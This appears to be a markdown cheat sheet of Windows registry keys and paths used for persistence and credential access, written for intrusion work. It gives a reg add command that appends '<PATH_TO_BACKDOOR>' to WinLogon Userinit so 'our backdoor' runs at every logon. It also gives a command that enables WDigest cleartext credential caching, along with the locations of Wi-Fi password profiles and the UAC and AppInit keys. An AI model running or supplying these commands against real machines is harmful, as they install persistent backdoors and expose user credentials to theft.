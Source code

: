 # Windows Paths And Ways

### Table of Contents
- [Startup Programs](#startup-programs)
- [Services](#services)
- [AppInit DLLs](#appinit-dlls)
- [Hosts File](#hosts-file)
- [UAC](#uac)
- [WinLogon](#winlogon)
- [WDigest](#wdigest)
- [Scheduled Tasks](#scheduled-tasks)

### Startup Programs
```
%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup
```

### Services
All services data are stored under:
```
HKLM\SYSTEM\CurrentControlSet\Services\NameOfTheService
```
**Adding a service (ADMIN NEEDED):**
- **Native methods**:
  ```
  sc.exe create <new_service_name> binPath= "<path_to_the_service_executable>"

  New-Service -Name "MyService" -BinaryPathName "C:\Path\to\myservice.exe"
  ```
  *You must have quotation marks around the actual exe path, and a space after the binPath=.*

  Note that it will not work for just any executable: the executable must be a Windows Service (i.e. implement ServiceMain). When registering a non-service executable as a service, you'll get the following error upon trying to start the service:

  ```
  Error 1053: The service did not respond to the start or control request in a timely fashion.
  ``````
  
### AppInit DLLs

`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows`

### Hosts File

`C:\windows\system32\drivers\etc\hosts`

### UAC

`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System`

The value of **EnableLua** is 0x1 for UAC enabled, 0x0 for disabled (REG_DWORD)

### WinLogon

` HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon`

`reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /d "Userinit.exe, <PATH_TO_BACKDOOR>" /f`

When a user logs in Userinit.exe will be executed and then our backdoor.

### WDigest

`reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1`

Enables WDigest

### Scheduled Tasks

![Scheduled Tasks](https://drive.google.com/uc?export=download&id=194pD8C6FLlnD4vS4wO8WB9Q-pr5hhftF)

### Wireless Networks Passwords

```
C:\ProgramData\Microsoft\Wlansvc\Profiles\Interface\{Interface GUID}
```